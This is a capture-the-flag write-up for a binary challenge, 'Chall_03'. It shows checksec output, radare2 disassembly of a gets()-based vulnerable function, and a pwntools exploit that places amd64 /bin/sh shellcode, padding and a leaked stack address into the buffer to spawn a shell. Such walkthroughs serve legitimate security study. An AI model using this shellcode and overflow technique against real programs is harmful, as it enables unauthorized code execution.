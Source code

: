 # Chall_03

## Solution


First we run ```checksec --file=a.out``` to see any vulnerabilities and see there is ```No canary found``` and ```NX disabled``` which means we can implant shellcode. 

Then we run ```r2 -Ad a.out``` to disassemble the file in debug mode and then enter ```s main``` to be taken to main and ```Vp``` to open visual.

```assembly
65: sym.vuln ();                                                                                                                 
│           ; var int64_t var_140h @ rbp-0x140                                                                                     
│           0x5624af44e189      f30f1efa       endbr64                                                                             
│           0x5624af44e18d      55             push rbp                                                                            
│           0x5624af44e18e      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e191      4881ec400100.  sub rsp, 0x140                                                                      
│           0x5624af44e198      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e19f      4889c6         mov rsi, rax                                                                        
│           0x5624af44e1a2      488d3d5f0e00.  lea rdi, str.Heres_a_leak_:___p_n    ; 0x5624af44f008 ; "Here's a leak :) %p\n"     
│           0x5624af44e1a9      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ae      e8cdfeffff     call sym.imp.printf     ;[1] ; int printf(const char *format)                       
│           0x5624af44e1b3      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e1ba      4889c7         mov rdi, rax                                                                        
│           0x5624af44e1bd      b800000000     mov eax, 0                                                                          
│           0x5624af44e1c2      e8c9feffff     call sym.imp.gets       ;[2] ; char *gets(char *s)                                  
│           0x5624af44e1c7      90             nop                                                                                 
│           0x5624af44e1c8      c9             leave                                                                               
└           0x5624af44e1c9      c3             ret  

37: int main (int argc, char **argv, char **envp);                                                                               
│           0x5624af44e1ca      f30f1efa       endbr64                                                                             
│           0x5624af44e1ce      55             push rbp                                                                            
│           0x5624af44e1cf      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e1d2      488d3d470e00.  lea rdi, str.She_sellz_sea_shellz_by_the_return_address    ; 0x5624af44f020 ; "She 
│           0x5624af44e1d9      e892feffff     call sym.imp.puts       ;[3] ; int puts(const char *s)                              
│           0x5624af44e1de      b800000000     mov eax, 0                                                                          
│           0x5624af44e1e3      e8a1ffffff     call sym.vuln           ;[4]                                                        
│           0x5624af44e1e8      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ed      5d             pop rbp                                                                             
└           0x5624af44e1ee      c3             ret                                                                                 
            0x5624af44e1ef      90             nop 
```

We notice that the space we're looking for is ```0x140``` which translates to ```320```
When we run the executable it gives us the leak address which is ```0x7fffdcbfafb0``` so since its a 64bit executable we can ```p64(int(0x7fffdcbfafb0))``` which gives us ```b'\xb0\xaf\xbf\xdc\xff\x7f\x00\x00'```. We can then tell our machine that the executable is 64bits with ```context.arch = "amd64"``` and then ```asm(shellcraft.amd64.sh())``` which gives us ```b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'```. We then check the length of the ```shellcraft``` with ```len(outputabove)``` to get ```48```. Now we can craft our payload with ```payload = outputabove + b'a' * (320 + 8 -48) + p64(int(0x7fffdcbfafb0))```. Send it with ```p.sendline(payload)``` and ```p.interactive``` to get shell. 
